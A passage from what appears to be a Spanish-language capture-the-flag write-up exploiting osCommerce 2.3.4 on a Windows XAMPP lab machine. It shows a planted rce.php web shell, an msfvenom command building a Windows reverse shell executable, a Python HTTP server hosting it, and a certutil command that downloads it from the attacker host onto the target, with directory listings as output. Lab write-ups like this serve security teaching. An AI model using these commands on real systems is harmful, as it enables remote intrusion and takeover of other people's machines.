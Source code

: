          Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes
        
        07/12/2023  05:12 PM    <DIR>          .
        07/12/2023  05:12 PM    <DIR>          ..
        04/11/2019  10:52 PM               447 application.php
        07/12/2023  05:12 PM             1,118 configure.php
        04/11/2019  10:52 PM    <DIR>          functions
        07/12/2023  05:12 PM                34 rce.php
                       3 File(s)          1,599 bytes
                       3 Dir(s)  19,509,256,192 bytes free

    
![image](https://github.com/Esevka/CTF/assets/139042999/9eb7dd93-cd4d-4a3a-8b43-c69eee5d5d99)
    
![image](https://github.com/Esevka/CTF/assets/139042999/39a79773-a338-4be0-976c-705efc80cabf)

## Conseguimos una Reverse Shell

Pues siguiendo el proceso anterior creamos una reverse shell con msfvenom, seguidamente nos la descargamos a la maquina windows y la ejecutamos desde nuestro fichero rce.php, obteniendo una reverse shell.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/script]
    └─# msfvenom -p windows/shell_reverse_tcp LHOST=10.8.64.232 LPORT=1988 -f exe -o reverse.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes
    Saved as: reverse.exe

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/script]
    └─# python3 -m http.server 80 
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
   ## 
    RCE_SHELL$ certutil -urlcache -f http://10.8.64.232/reverse.exe reverse.exe
    ****  Online  ****
    CertUtil: -URLCache command completed successfully.
    
    RCE_SHELL$ dir
     Volume in drive C has no label.
     Volume Serial Number is 14AF-C52C
    
     Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes
    
    07/12/2023  05:34 PM    <DIR>          .
    07/12/2023  05:34 PM    <DIR>          ..
    04/11/2019  10:52 PM               447 application.php
    07/12/2023  05:36 PM             1,118 configure.php
    04/11/2019  10:52 PM    <DIR>          functions
    07/12/2023  05:33 PM                34 rce.php
    07/12/2023  05:34 PM            73,802 reverse.exe
                   4 File(s)         75,401 bytes
                   3 Dir(s)  19,509,014,528 bytes free
